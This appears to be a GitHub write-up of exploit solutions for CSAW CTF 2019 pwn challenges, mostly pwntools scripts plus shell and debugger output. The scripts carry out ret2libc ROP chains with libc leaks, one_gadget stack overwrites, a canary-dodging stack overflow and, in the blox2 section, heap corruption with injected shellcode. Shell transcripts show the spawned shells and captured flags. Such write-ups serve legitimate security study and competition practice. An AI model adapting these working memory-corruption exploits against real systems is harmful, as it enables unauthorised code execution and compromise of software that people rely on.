

# CSAW_CTF_2019_pwn
## roppity
```python
from pwn import *

context.log_level = 'debug'
context.binary = './rop'
elf = context.binary
libc = elf.libc

pop_rdi = 0x400683

p = process('rop')
p = remote('pwn.chal.csaw.io', 5016)
p.recv()
payload = 'A' * 40 + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(elf.sym['main'])
p.sendline(payload)
# puts_addr = p.recvuntil('\x7f')[:-6].ljust(8, '\x00')
puts_addr = u64(p.recv()[:-7].ljust(8, '\0'))
print puts_addr
libc.address = puts_addr - libc.sym['puts']
print 'libc.addr @ {:#x}'.format(libc.address)

# p.recv()
one_gadget = libc.address + 0x4f365
# payload = 'A' * 40 + p64(pop_rdi) + p64(next(libc.search('/bin/sh'))) + p64(libc.sym['system'])
payload = 'A' * 40 + p64(one_gadget)
```
```
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xd bytes:
    'flag.txt\n'
    'rop\n'
flag.txt
rop
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x1e bytes:
    'flag{r0p_4ft3r_r0p_4ft3R_r0p}\n'
flag{r0p_4ft3r_r0p_4ft3R_r0p}
$
```
## slithery
```
root@18:~/ctf/1# nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> print(RMbPOQHCzt.loadtxt('flag.txt','str'))
flag{y4_sl1th3r3d_0ut}
>>>
```
### grid
泄露地址，并确定偏移
```
pwndbg> libc
libc : 0x7fbed6485000
pwndbg> distance 0x7fbed6485000 0x7fbed69715da
0x7fbed6485000->0x7fbed69715da is 0x4ec5da bytes (0x9d8bb words)
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x402000 r-xp     2000 0      /root/ctf/2/grid
          0x601000           0x602000 r--p     1000 1000   /root/ctf/2/grid
          0x602000           0x603000 rw-p     1000 2000   /root/ctf/2/grid
         0x1a12000          0x1a33000 rw-p    21000 0      [heap]
    0x7fbed5ecf000     0x7fbed5ee6000 r-xp    17000 0      /lib/x86_64-linux-gnu/libgcc_s.so.1
    0x7fbed5ee6000     0x7fbed60e5000 ---p   1ff000 17000  /lib/x86_64-linux-gnu/libgcc_s.so.1
    0x7fbed60e5000     0x7fbed60e6000 r--p     1000 16000  /lib/x86_64-linux-gnu/libgcc_s.so.1
    0x7fbed60e6000     0x7fbed60e7000 rw-p     1000 17000  /lib/x86_64-linux-gnu/libgcc_s.so.1
    0x7fbed60e7000     0x7fbed6284000 r-xp   19d000 0      /lib/x86_64-linux-gnu/libm-2.27.so
    0x7fbed6284000     0x7fbed6483000 ---p   1ff000 19d000 /lib/x86_64-linux-gnu/libm-2.27.so
    0x7fbed6483000     0x7fbed6484000 r--p     1000 19c000 /lib/x86_64-linux-gnu/libm-2.27.so
    0x7fbed6484000     0x7fbed6485000 rw-p     1000 19d000 /lib/x86_64-linux-gnu/libm-2.27.so
    0x7fbed6485000     0x7fbed666c000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7fbed666c000     0x7fbed686c000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7fbed686c000     0x7fbed6870000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7fbed6870000     0x7fbed6872000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7fbed6872000     0x7fbed6876000 rw-p     4000 0
    0x7fbed6876000     0x7fbed69ef000 r-xp   179000 0      /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.25
    0x7fbed69ef000     0x7fbed6bef000 ---p   200000 179000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.25
    0x7fbed6bef000     0x7fbed6bf9000 r--p     a000 179000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.25
    0x7fbed6bf9000     0x7fbed6bfb000 rw-p     2000 183000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.25
    0x7fbed6bfb000     0x7fbed6bff000 rw-p     4000 0
    0x7fbed6bff000     0x7fbed6c26000 r-xp    27000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7fbed6e0b000     0x7fbed6e11000 rw-p     6000 0
    0x7fbed6e26000     0x7fbed6e27000 r--p     1000 27000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7fbed6e27000     0x7fbed6e28000 rw-p     1000 28000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7fbed6e28000     0x7fbed6e29000 rw-p     1000 0
    0x7ffc80838000     0x7ffc80859000 rw-p    21000 0      [stack]
    0x7ffc80895000     0x7ffc80898000 r--p     3000 0      [vvar]
    0x7ffc80898000     0x7ffc80899000 r-xp     1000 0      [vdso]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
pwndbg>
```
```python
from pwn import *

context.log_level = 'debug'
context.binary = './grid'
elf = context.binary
libc = elf.libc

# p = process('./grid')
p = remote('pwn.chal.csaw.io', 5013)

p.recvuntil('shape> ')
p.sendline('d')
stack_addr = u64(p.recv()[0x25:0x2b].ljust(8, '\x00'))
print "stack @ {:#x}".format(stack_addr)
libc.address = stack_addr - 0x4ec5da
print "libc @ {:#x}".format(libc.address)

one_gadget = libc.address + 0x4f365

def write_stack(a, b):
    p.sendline(p8(a))
    p.recvuntil('loc> ')
    p.sendline(str(0))
    p.sendline(str(b))

write_stack((one_gadget & 0xff), 0x78)
write_stack((one_gadget >> 8 & 0xff), 0x79)
write_stack((one_gadget >> 16 & 0xff), 0x7a)
write_stack((one_gadget >> 24 & 0xff), 0x7b)
write_stack((one_gadget >> 32 & 0xff), 0x7c)
write_stack((one_gadget >> 40 & 0xff), 0x7d)

p.sendline('d')
p.recv()

p.interactive()
```
```
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xe bytes:
    'flag.txt\n'
    'grid\n'
flag.txt
grid
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x1e bytes:
    'flag{but_4ll_l4ngu4g3s_R_C:(}\n'
flag{but_4ll_l4ngu4g3s_R_C:(}
$
```
## The Bards' Fail
10次申请连续放在栈上。如果申请evil，长度不足会溢出，这里有canary保护，使用一个good和7个evil，然后1个evil刚好不去覆盖canary，再申请good，刚好name可以填写ROP
```
+-----------------------------+-----------+-----------+------------+
|      Large s[488] chunk     |   canary  | rbp-store | ROP region |
+-------------488-------------|-----8-----|-----8-----|-----32-----+
+------+-------+-----------Bad------------+----------Good----------+
| Good | Bad*7 | Garbage | name[],padding |  garbage  |   name[]   |
+--48--+--392--+----22---+-----0x20+2-----+-----8-----|-----32-----+
```
```python
from pwn import *
def good(name, type=1):
    p.sendlineafter(':\n', 'g')
    p.sendlineafter('accuracy\n', str(type))
    p.sendafter(':\n', name)
def evil(name, type=1):
    p.sendlineafter(':\n', 'e')
    p.sendlineafter('ment\n', str(type))
    p.sendafter(':\n', name)
context.binary = './bard'
elf = context.binary
libc = elf.libc
# p = process('./bard')
p = remote('pwn.chal.csaw.io', 5019)
good("A" * 0x20)
for i in range(7):
    evil("A" * 0x20)
evil("A" * 0x18)
addr_main = 0x40107b
rop_pop_rdi = 0x00401143
payload  = p64(rop_pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(addr_main)
good(payload)
for i in range(10):
    p.sendlineafter('un\n', 'r')
p.recvline()
libc.address = u64(p.recvline()[:-1].ljust(8, '\x00')) - libc.sym['puts']
print 'libc @ {:#x}'.format(libc.address)
good("A" * 0x20)
for i in range(7):
    evil("A" * 0x20)
evil("A" * 0x18)
addr_main = 0x40107b
rop_pop_rdi = 0x00401143
payload  = p64(rop_pop_rdi + 1)
payload += p64(rop_pop_rdi)
payload += p64(next(libc.search('/bin/sh')))
payload += p64(libc.sym['system'])
good(payload)
for i in range(10):
    p.sendlineafter('un\n', 'r')
p.interactive()
```
```
[*] Switching to interactive mode
$ ls
bard
flag.txt
$ cat flag.txt
flag{why_4r3_th3y_4ll_such_c0w4rds??}
$
```
## blox2
```python
import interact

p = interact.Process()

def startgame():
	p.send('\n')

def suicide(name=''):
	# kill ourself and enter empty highscore name
	p.send('                    ' + name + '\n')

def precisionSuicide(name=''):
	# KILL OURSELF WITH PRECISION!!!!! HIT IT WITH >>>PRECISION<<<!!!!!!
	# kill ourself and enter empty highscore name
	p.send(('Iz ' * 4) + ('O ' * 2) + name + '\n')

def enablecheats():
	startgame()
	suicide()
	startgame()
	suicide()
	startgame()
	p.send('azzzaaaaa aaa aaa aaaacazddd aaazazza aaa acaaazaa aaa acazaaaa acazaaaaa cazaaaaa dczaaa daaaddaaa azaaaa zaaaaaa dazaaa  zzzaa dddd ddddd dddcdddd')
	suicide()

def do_corruption():
	# corrupt heap_top by OoB board
	p.send('\nOzzzaaaasssssssssssssssssI')
	suicide()
	# now heap_top = 0x40012c in malloc

def get_highscore(i, name=''):
	startgame()
	for _ in range(1 + i//9):
		# p.send('Oaaaaa ')
		p.send('Oaaaaa ')
		p.send('Oaaa ')
		p.send('Oa ')
		p.send('Od ')
		p.send('Oddd ')
		p.send('Oddddd ')
	for _ in range(i%9):
		p.send('Oaaaaa ')
	suicide(name)

def corrupt_checkhighscore():
	# We are at 0x40012c, we want to go to 4001c8
	games = (0x4001c8-0x40012c)//4
	for i in range(games-1):
		get_highscore(i)

	# .text:00000000004001C5 83 7D FC 05  cmp     [rbp+var_4], 5
	# .text:00000000004001C9 75 0A        jnz     short loc_4001D5
	# Overwrite with 'A' to
	# .text:00000000004001C5 83 7D FC 41  cmp     [rbp+var_4], 'A'
	# .text:00000000004001C9 75 0A        jnz     short loc_4001D5
	get_highscore(games, name='A')

def corrupt_more_shit():
	# We are at 0x4001cc. We want to go to 0x400260
	for i in range((0x400260-0x4001cc)//4):
		startgame()
		precisionSuicide()
	# .text:000000000040025D 80 7D F7 40  cmp     [rbp+var_9], 40h ;   <-- 40h replaced with 1
	# .text:0000000000400261 7E 31        jle     short loc_400294 ; SIGNED COMPARISON, goes to add al, 0x31 (effective NOP)
	startgame()
	precisionSuicide('A\x7f\x01\x04')
	# Now we can use low bytes!!!
	# WE MUST ALSO USE PRECISIONSUICIDE FROM NOW ON

	# Now are at 0x400264, go to 0x400268
	startgame()
	precisionSuicide('')

	# .text:0000000000400263 80 7D F7 5A  cmp     [rbp+var_9], 5Ah ; 'Z'
	# .text:0000000000400267 7F 2B        jg      short loc_400294 <---7F 06 jg sice
	startgame()
	precisionSuicide('\x06')
	# Now we can have high bytes!!

	# Now are at 0x40026c
	# .text:0000000000400269 83 7D F8 02  cmp     [rbp+var_8], 2 <-- fuck length limit to 41
	# .text:000000000040026D 7F 25        jg      short loc_400294 SIGNED COMPARISON!!!!!
	startgame()
	precisionSuicide('\x41')
	# Now we can enter 41 characters at a time

	# Now are at 0x400270 and we need to go to 0x400318
	for i in range((0x400318-0x400270)//4):
		startgame()
		precisionSuicide()

	shellcode = ''
	shellcode += '\xB8\x19\x25\x20\x20' # mov eax, 0x20202519
	shellcode += '\x35\x20\x20\x20\x20' # xor eax, 0x20202020
	shellcode += '\xBF\x41\x41\x41\x41' # mov edi, 0x41414141
	shellcode += '\x0F\x05' # syscall
	shellcode += '\xc9\xc3' # leave; ret

	startgame()
	precisionSuicide(shellcode)

enablecheats()
do_corruption()
corrupt_checkhighscore()
corrupt_more_shit()

p.interactive()
```


